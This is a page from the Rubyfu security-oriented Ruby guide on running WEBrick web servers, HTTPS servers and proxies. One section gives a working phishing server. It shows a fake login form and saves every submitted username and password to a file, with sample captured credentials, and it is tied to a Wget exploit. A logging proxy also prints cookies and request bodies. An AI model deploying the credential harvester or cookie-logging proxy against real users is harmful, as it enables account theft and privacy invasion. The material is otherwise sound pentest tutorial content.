

# Ruby as Web Server and Proxy

## Web Server

You can run Ruby as web server for any folder/file on any unused port, here's a oneliner code

```ruby
ruby -run -e httpd /var/www/ -p 8000
```

or

```ruby
require 'webrick'
server = WEBrick::HTTPServer.new :Port => 8000, :DocumentRoot => '/var/www/'
# WEBrick::Daemon.start   # Stating WEBRick as a daemon
server.start
```

**HTTPS server**

```ruby
require 'webrick'
require 'webrick/https'

cert = [
  %w[CN localhost],
]

server = WEBrick::HTTPServer.new(:Port         => 8000,
                                 :SSLEnable    => true,
                                 :SSLCertName  => cert,
                                 :DocumentRoot => '/var/www/')
server.start
```

**Advanced HTTP Server**

During working on [CVE-2016-4971\(Wget\)](https://github.com/KINGSABRI/CVE-in-Ruby/tree/master/CVE-2016-4971) exploit, more advanced & custom behavior needed. Here is a web server with a fake login form that saves the collected credentials to a text file. This comes in handy when you don't need to make customizations on apache config or you don't have enough privileges to do so. It require no knowledge for web frameworks like Rails or Senatra.

```ruby
#!/usr/bin/env ruby
#
# KING SABRI | @KINGSABRI
#
require 'webrick'

#
# Servlet: Is a Web Server with custom behavior class
# It's a subclass of WEBrick::HTTPServlet::AbstractServlet
#
class RubyfuServlet < WEBrick::HTTPServlet::AbstractServlet

  # Control 'GET' request/response
  def do_GET(req, res)
    res.status = 200
    res['Content-Type']   = "text/html; charset=UTF-8"
    res['Server']         = "Rubyfu WebServer"
    res['Cache-Control']  = "no-store, no-cache,"
    res.body              = print_login(req)
  end

  private
  # Show login
  def print_login(req)
    html = %q{
      <center>
        <table cellpadding="3" border="1">
        <tr><td colspan="2"><center><h4><b>Enter your Username and Password</b></h4></center></td></tr>
        <form method="POST" action="/login">
                <tr><td><strong><b>Username:</b></strong></td><td><input name="username" type="text"></td></tr>
                <tr><td><strong><b>Password:</b></strong></td><td><input name="password" type="password"></td></tr>
                <tr><td colspan="2"><center><h1><b><input type="submit" value="Login" /></b></h1></center></td></tr>
        </form>
        </table>
      </center>
    }
  end

end

class Login < WEBrick::HTTPServlet::AbstractServlet

  # Control 'POST' request/response
  def do_POST(req, res)
    status, content_type, body = save_login(req)
    res.body  = body
  end

  # Save POST request
  def save_login(req)
    username, password = req.query['username'], req.query['password']

    if !(username && password).empty?
      # Print Credentials to console
      puts "\n-----[ START OF POST ]-----"
      puts "[+] #{username}:#{password}"
      puts "-----[ END OF POST ]-----\n\n"
      # Write Credentials to file
      File.open("credentials.txt", '+a') {|f| f.puts "#{username}:#{password}"}
      return 200, 'text/plain', 'Success! Thank you.'
    else
      puts "[!] Empty username and password."
      return 404, 'text/plain', 'Wrong username or password!'
    end

  end
end


begin
  port = ARGV[0]
  raise if ARGV.size < 1

  # Start Web Server
  puts "[+] Starting HTTP server on port: #{port}\n"
  server = WEBrick::HTTPServer.new(ServerName: "Rubyfu HTTP Server",
                                   Port: port,
                                   BindAddress: '0.0.0.0',
                                   AccessLog: [],
                                   Logger: WEBrick::Log.new(File.open(File::NULL, 'w'))
                                   )
  server.mount("/", RubyfuServlet)
  server.mount("/login", Login)
  trap "INT" do server.shutdown end
  server.start

rescue Exception => e
  puts "ruby #{__FILE__} <WEB_SERVER_PORT>" if ARGV.size < 1
  puts e, e.backtrace
  exit 0
end
```

Run it

```
ruby webrick-server.rb 8080
[+] Starting HTTP server on port: 8080

-----[ START OF POST ]-----
[+] admin:AdminPassw0rd@!
-----[ END OF POST ]-----


-----[ START OF POST ]-----
[+] support:Puppies
-----[ END OF POST ]-----

[!] Empty username and password.

-----[ START OF POST ]-----
[+] user1:12345678
-----[ END OF POST ]-----
```

You'll find credentials have been saved in 'credentials.txt'

**References**

* [http://ruby-doc.org/stdlib-2.0.0/libdoc/webrick/rdoc/WEBrick.html](http://ruby-doc.org/stdlib-2.0.0/libdoc/webrick/rdoc/WEBrick.html)
* [https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/](https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/)
* [https://rubyit.wordpress.com/2011/07/25/basic-rest-server-with-webrick/](https://rubyit.wordpress.com/2011/07/25/basic-rest-server-with-webrick/)
* [https://gist.github.com/Integralist/2862917](https://gist.github.com/Integralist/2862917)

## Web Proxy

As we can run web server, we can run a proxy server, here's a oneliner code to run a web proxy server in ruby

```ruby
ruby -r webrick/httpproxy -e 's = WEBrick::HTTPProxyServer.new(:Port => 8080, :RequestCallback => Proc.new{|req,res| puts req.request_line, req.raw_header}); trap("INT"){s.shutdown}; s.start'
```

### Transparent Web Proxy

```ruby
require 'webrick'
require 'webrick/httpproxy'

handler = proc do |req, res|
  puts "[*] Request"
  puts req.inspect
  request = req.request_line.split
  puts "METHOD: "      + "#{request[0]}"
  puts "Request URL: " + "#{request[1]}"
  puts "Request path: "+ "#{req.path}"
  puts "HTTP: "        + "#{request[2]}"
  puts "Referer: "     + "#{req['Referer']}"
  puts "User-Agent: "  + "#{req['User-Agent']}"
  puts "Host: "        + "#{req['Host']}"
  puts "Cookie: "      + "#{req['Cookie']}"
  puts "Connection: "  + "#{req['Connection']}"
  puts "Accept: "      + "#{req['accept']}"
  puts "Full header: " + "#{req.header}"
  puts "Body: "        + "#{req.body}"
  puts "----------[END OF REQUEST]----------"
  puts "\n\n"

  puts "[*] Response"
  puts res.inspect
  puts "Full header: " + "#{res.header}"
  puts "Body: " + "#{res.body}"
  puts "----------[END OF RESPONSE]----------"
  puts "\n\n\n"
end

proxy = WEBrick::HTTPProxyServer.new Port: 8000,
                                     ServerName: "RubyFuProxyServer",
                                     ServerSoftware: "RubyFu Proxy",
                                     ProxyContentHandler: handler

trap 'INT'  do proxy.shutdown end

proxy.start
```

### Transparent Web Proxy with Authentication

Well, it was great to know that building a proxy server is that easy. Now we need to Force authentication to connect to the proxy server

To enable authentication for requests in WEBrick you will need a user database and an authenticator. To start, here's a htpasswd database for use with a DigestAuth authenticator:

The `:Realm` is used to provide different access to different groups across several resources on a server. Typically you'll need only one realm for a server.

```ruby
#!/usr/bin/env ruby
require 'webrick'
require 'webrick/httpproxy'

# Start creating the config
config = { :Realm => 'RubyFuSecureProxy' }
# Create an htpasswd database file in the same script path
htpasswd = WEBrick::HTTPAuth::Htpasswd.new 'rubyfuhtpasswd'
# Set authentication type
htpasswd.auth_type = WEBrick::HTTPAuth::DigestAuth
# Add user to the password config
htpasswd.set_passwd config[:Realm], 'rubyfu', 'P@ssw0rd'
# Flush the database (Save changes)
htpasswd.flush
# Add the database to the config
config[:UserDB] = htpasswd
# Create a global DigestAuth based on the config
@digest_auth = WEBrick::HTTPAuth::DigestAuth.new config

# Authenticate requests and responses
handler = proc do |request, response|
  @digest_auth.authenticate request, response
end


proxy = WEBrick::HTTPProxyServer.new Port: 8000,
                                     ServerName: "RubyFuSecureProxy",
                                     ServerSoftware: "RubyFu Proxy",
                                     ProxyContentHandler: handler

trap 'INT'  do proxy.shutdown end

proxy.start
```

If you do it right, you'll get an authentication pop-up in your browser just like below.



**References**

* [https://www.fedux.org/articles/2015/04/11/setup-a-proxy-with-ruby.html](https://www.fedux.org/articles/2015/04/11/setup-a-proxy-with-ruby.html)
* [http://ruby-doc.org/stdlib-2.4.0/libdoc/webrick/rdoc/WEBrick/HTTPProxyServer.html](http://ruby-doc.org/stdlib-2.4.0/libdoc/webrick/rdoc/WEBrick/HTTPProxyServer.html)
* [http://www.independent-software.com/creating-a-forward-proxy-with-webrick/](http://www.independent-software.com/creating-a-forward-proxy-with-webrick/)


